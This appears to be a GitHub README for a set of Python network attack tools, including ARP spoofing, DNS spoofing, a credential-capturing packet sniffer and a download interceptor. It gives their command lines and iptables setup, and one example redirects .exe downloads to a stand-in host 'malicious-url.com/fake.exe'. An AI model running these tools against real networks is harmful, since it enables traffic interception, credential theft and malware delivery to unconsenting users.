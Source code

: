 # Network Utilities Collection

## Overview
This collection of network utilities provides essential tools for network analysis and security testing. Use them responsibly and in accordance with legal and ethical guidelines.

## Tools

### 1. MAC Address Changer Tool

#### Description
This tool allows you to change the MAC address of a network interface, which can be useful for anonymity or network testing.

#### Usage
To change the MAC address of a specified network interface, use the following command:

```bash
python macchanger.py -i <interface> -m <new_mac>
```
#### Example
```bash
python macchanger.py -i eth0 -m 00:11:22:33:44:55
```

### 2. Network Scanner Tool

#### Description
This tool scans a specified IP address or range of IP addresses to identify active devices on the local network.

#### Usage
To run the Network Scanner Tool, use the following command:

```bash
python network_scanner.py -t <target_ip>
```
#### Example
```bash
python network_scanner.py -t 192.168.1.0/24
```
### 3. ARP Spoofing Tool

#### Description
This tool performs ARP spoofing, allowing an attacker to intercept and manipulate traffic between two devices on a local network.

#### Usage
To run the ARP Spoofing Tool, use the following command:

```bash
python arpspoof.py -t <target_ip> -s <spoof_ip>

```
#### Example
```bash
python arpspoof.py -t 192.168.1.10 -s 192.168.1.1
```

### 4. Packet Sniffer Tool

#### Description
This tool captures and analyzes packets on a specified network interface, allowing you to extract sensitive information such as usernames and passwords.

#### Usage
To run the Packet Sniffer Tool, use the following command:

```bash
python packet_sniffer.py
```
#### Example
```bash
python packet_sniffer.py
```

### 5. DNS Spoofing Tool

#### Description
This tool intercepts DNS requests and spoofs DNS responses, redirecting the target to a specified IP address for a given domain.

#### Usage
Run the tool using the following command:

```bash
sudo python3 dnsspoof.py -w <website> -i <spoof_ip>
```

```bash
sudo python3 dnsspoof.py -w example.com -i 192.168.1.100
```
#### Install dependencies:
```bash
pip install netfilterqueue
```
#### Notes
Use iptables to redirect DNS requests to the Netfilter queue:
```bash
sudo iptables -I FORWARD -j NFQUEUE --queue-num 0
```
Clear iptables after use
```bash
sudo iptables --flush
```
### 6. File Download Interception Tool

#### Description
This tool intercepts HTTP requests for specific file types (e.g., `.exe`, `.pdf`) and redirects the download to a specified location using Scapy and NetfilterQueue.

#### Usage
Run the tool using the following command:

```bash
sudo python3 file_intercept.py -f <file_type> -d <redirect_url>
 ```
#### Example:
```bash
sudo python3 file_intercept.py -f .exe -d http://malicious-url.com/fake.exe
```
#### Install dependencies:
```bash
pip install netfilterqueue
```
#### Notes
Use iptables to redirect DNS requests to the Netfilter queue:
```bash
sudo iptables -I FORWARD -p tcp --dport 80 -j NFQUEUE --queue-num 0
```
Clear iptables after use
```bash
sudo iptables --flush
```







## Conclusion
This collection of network utilities provides essential tools for network analysis and security testing. Use them responsibly and in accordance with legal and ethical guidelines.

